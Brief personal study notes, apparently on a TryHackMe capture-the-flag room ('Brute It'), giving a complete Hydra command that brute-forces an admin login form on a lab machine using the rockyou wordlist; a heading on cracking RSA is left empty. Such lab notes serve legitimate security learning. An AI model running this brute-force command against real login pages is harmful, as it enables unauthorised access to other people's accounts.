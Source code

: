 
2024-07-28 20:06

Source: #tryhackme 

Tags:  [[Cryptography]]

#### Hydra brute force

we have a website that has a simple login page with username and password 
we find the username from the source code 
use [[hydra]] to brute force the password
```
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.91.80 http-post-form '/admin/:user=^USER^&pass=^PASS^:Username or password invalid'
```
#### cracking rsa 


### References
[TryHackMe | Brute It](https://tryhackme.com/r/room/bruteit)